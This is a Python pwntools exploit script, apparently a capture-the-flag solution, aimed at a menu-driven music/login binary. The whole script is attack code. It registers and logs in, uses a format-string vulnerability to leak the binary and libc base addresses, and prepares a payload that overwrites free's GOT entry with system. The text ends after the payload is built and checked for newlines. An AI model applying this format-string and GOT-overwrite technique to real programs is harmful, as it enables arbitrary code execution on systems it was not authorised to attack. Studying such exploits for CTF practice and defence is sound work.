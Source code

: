 ```python
io.recvuntil(b"[0] Register")
io.sendline(b"0")
io.recvuntil(b"username:")
io.sendline(b"a")
io.recvuntil(b"password:")
io.sendline(b"a")

# login
io.recvuntil(b"[0] Register")
io.sendline(b"1")
io.recvuntil(b"username:")
io.sendline(b"a")
io.recvuntil(b"password:")
io.sendline(b"a")

def format(io, title, author, album):
    io.recvuntil(b"[0] Register")
    io.sendline(b"2")
    io.recvuntil(b"title:")
    io.sendline(title)
    io.recvuntil(b"from:")
    io.sendline(author)
    io.recvuntil(b"on:")
    io.sendline(album)
    io.recvuntil(b"[0] Register")
    io.sendline(b"3")
    io.recvuntil(b"- a - ")
    return io.recvuntil(b" -")[:-2]

# setup character blacklist bypass
io.recvuntil(b"[0] Register")
io.sendline(b"2")
io.recvuntil(b"title:")
io.sendline(b"a")
io.recvuntil(b"from:")
io.sendline(b"a")
io.recvuntil(b"on:")
io.send(b"a"*0x20)

l = format(io, b".%10$p.%11$p.%12$p", b"a", b"a").split(b".")

print(l)

LEAK = int(str(l[2], "utf-8"), 16)
BASE = LEAK - 0x19e5

print("BASE:", hex(BASE))

addresses = b"aaaa"
addresses += p64(BASE + bin.got["printf"])

l = format(io, b".%501$s.", addresses, b"a").split(b".")
libc_base = u64(l[1] + b"\x00\x00") - libc.sym["printf"]
system = libc_base + libc.sym["system"]

print("LIBC BASE:", hex(libc_base))
print("SYSTEM", hex(system))

writes = {BASE + bin.got["free"]: system}

payload = fmtstr_payload(340, writes, numbwritten=32, write_size="short")
if b"\n" in payload:
    print("BAD PAYLOAD")
```